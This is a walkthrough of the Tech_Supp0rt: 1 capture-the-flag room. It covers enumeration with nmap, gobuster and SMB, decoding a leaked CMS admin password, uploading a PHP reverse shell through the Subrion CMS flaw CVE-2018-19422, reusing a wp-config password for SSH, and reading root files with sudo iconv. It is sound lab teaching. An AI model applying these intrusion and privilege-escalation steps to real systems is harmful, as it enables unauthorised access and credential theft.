


# Tech_Supp0rt: 1
**Date:** April 20th 2022

**Author:** j.info

**Link:** [**Tech_Supp0rt: 1**](https://tryhackme.com/room/techsupp0rt1) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -Pn -T4 10.10.64.125`

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-04-20T23:31:15+05:30

```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.64.125 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11321]
/test                 (Status: 200) [Size: 20677]
```

An additional gobuster scan on **/test**:

`gobuster dir -u http://10.10.64.125/test -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index_1.html         (Status: 200) [Size: 365]
---SNIP--- 2 to 19
/index_20.html        (Status: 200) [Size: 365]
```

<br>

## SMB Digging

Taking a look at what's available without credentials:

`smbclient -L \\10.10.64.125`

```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        websvr          Disk      
        IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
```

Checking out **print$** shows us that we don't have access to it:

`smbclient -N \\\\10.10.64.125\\print$`

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

**IPC$** is empty with no files in it.

And looking at **websvr** has one file:

```
smb: \> ls
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

                8460484 blocks of size 1024. 5596996 blocks available

```

Downloading it:

```
smb: \> recurse
smb: \> prompt
smb: \> mget *
getting file \enter.txt of size 273 as enter.txt (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \> 
```

And taking a look at the file:

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

That hash type doesn't look familiar and is 33 characters long, which definitely isn't standard. The magical forumla comment gets me thinking about the magic tool in **Cyberchef** so I decide to give that a try, and it works:


<br>

So it went from base58 -> base 32 -> base64 and finally the clear text value.

Now that we have some potential credentials let's see if we can use them. I try and ssh over to the machine but it does not work with these credentials. Time to check out the website.

<br>

## Website Digging

Visiting the main page shows us the default unconfigured Apache2 Ubuntu page.

Visiting **/test** shows us all sorts of fun popups and warnings which I'm sure are 100% legit and trustworthy:


<br>

I take a look at **/index_1.html** through **/index_20.html** and none of them have anything in them.

When trying to visit [**http://10.10.64.125/subrion**](http://10.10.64.125/subrion) it redirects us to [**https://10.0.2.15/subrion/subrion**](https://10.0.2.15/subrion/subrion).

I run another gobuster scan against **/subrion** with 301/302 excluded and redirects off and find the following:

`gobuster dir -u http://10.10.64.125/subrion -t 100 -x php,txt,html -b 301,302 -w dir-med.txt`

```
/robots.txt           (Status: 200) [Size: 142]
/license.txt          (Status: 200) [Size: 35147]
/updates              (Status: 403) [Size: 277]
/changelog.txt        (Status: 200) [Size: 49250]
/panel.html           (Status: 200) [Size: 6203] 
/panel.php            (Status: 200) [Size: 6203] 
/panel.txt            (Status: 200) [Size: 6203]
```

Checking out **robots.txt**:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

Looking through all of those we find a login page at **/panel** and it looks like we can potentially reinstall the website at **/install**:


<br>


<br>

Using the credentials we found for admin earlier I'm able to successfully login to the admin panel:



<br>

Looking around the admin panel I find the system page which allows me to fix the site URL. It was set to 10.0.2.15 which is why it redirected us there earlier:


<br>

And now when I visit the main **/subrion** page it gives me a normal CMS page with the kickstart theme:


<br>

## System Access

The website is running **Subrion CMS v4.2.1** and I search for exploits on that, which leads me to **CVE-2018-19422** and [**this exploit code**](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE) on GitHub.

Looking through the code shows you can upload **.phar** and **.pht** files in the uploads section of the admin panel to trigger a reverse shell since they aren't filtered out by the CMS. I manually do this instead of using the exploit by navigating to the content -> uploads section and then uploading a php reverse shell named as **p.phar**:


<br>

I set up a listener on my system and when I click the link in that screenshot under the get info box we get a reverse shell back:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.64.125] 45476
Linux TechSupport 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:01:54 up  3:36,  0 users,  load average: 0.00, 0.01, 2.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

I stabilize my shell with python3:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`CTRL + Z to background our shell`

`stty raw -echo; fg`

`export TERM=xterm-256color`

Much better.

<br>

## System Enumeration

Other than root this is the only user on the system with a login shell:

```
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
```

Looking through **/var/www** shows us that there is a **wordpress** directory. I find the **wp-config.php** file and get some credentials:

```
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '<REDACTED>' );
```

I look through the database but don't find anything useful.

<br>

## Scamsite User

The support user doesn't exist on the system but I wonder if there is a case of password reuse here? Let's try and **ssh** over to the **scamsite** user with these credentials:

`ssh scamsite@10.10.64.125`

```
scamsite@10.10.64.125's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$
```

Oh scammers, you should know better!

I check `sudo -l` and see:

```
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/iconv/) shows that we have the ability to read files as root with **iconv**:



<br>

Let's try and read the **root.txt** flag:

`LFILE=/root/root.txt`

`sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"`

```
<REDACTED>
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding and downloading files in an SMB share with **smbclient**
- Using **Cyberchef** to obtain the clear text password from encoded text
- Exploiting the **CVE-2018-19422** vulnerability to upload a **.phar** file to the **Subrion CMS** system for a reverse shell
- Finding credentials in the **wp-config.php** file and using them to login as another user
- Exploiting **SUID** being set on **iconv** to read files as the root user

<br>

Many thanks to:
- [**Vikaran**](https://tryhackme.com/p/Vikaran) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)